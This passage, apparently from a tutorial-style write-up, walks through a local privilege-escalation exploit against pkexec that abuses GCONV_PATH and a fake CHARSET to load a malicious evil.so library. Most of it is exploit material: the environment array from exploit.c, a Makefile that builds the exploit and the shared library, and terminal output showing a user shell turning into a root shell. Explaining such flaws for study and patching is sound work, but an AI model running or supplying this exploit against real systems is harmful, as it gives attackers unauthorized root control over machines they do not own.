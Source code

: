 This line links the fake character type name (`CHARSET=BRUH`) to the `evil.so` library.

### `exploit.c`

This program (or script) creates the needed folders and files, copies everything into place, and then launches `pkexec` with some modified environment variables:

```c
char *envp[] = {
    "evildir",         // name of the module folder
    "GCONV_PATH=.",    // tells the system to look for modules in the current folder
    "SHELL=BRUH",      // required by pkexec, tricks the check
    "CHARSET=BRUH",    // fake charset that activates our module
    NULL
};
```

The program then runs `pkexec`, and the system, while trying to print an error in "ryaagard", looks for a conversion module in `GCONV_PATH=.` and finds our `evil.so` library. At that point, it runs it **as root**, and we get a root shell.

## 4.3 Exploit Compilation and Execution

To compile all the needed files, we use the `Make` framework, which allows us to automate the compilation process using a file called `Makefile`. This file contains the instructions on how to compile each source file.

```makefile
all:
	gcc -shared -o evil.so -fPIC evil-so.c
	gcc exploit.c -o exploit

clean:
	rm -r ./GCONV_PATH=. && rm -r ./evildir && rm exploit && rm evil.so
```

### Compilation

```bash
make all
```

### Execution

```bash
user@user:~$ 
user@user:~$ 
user@user:~$ id
uid=1000(miley) gid=1000(miley) groups=1000(miley)
user@user:~$ ./exploit
#
id
uid=0(root) gid=0(root) groups=0(root)
#
```
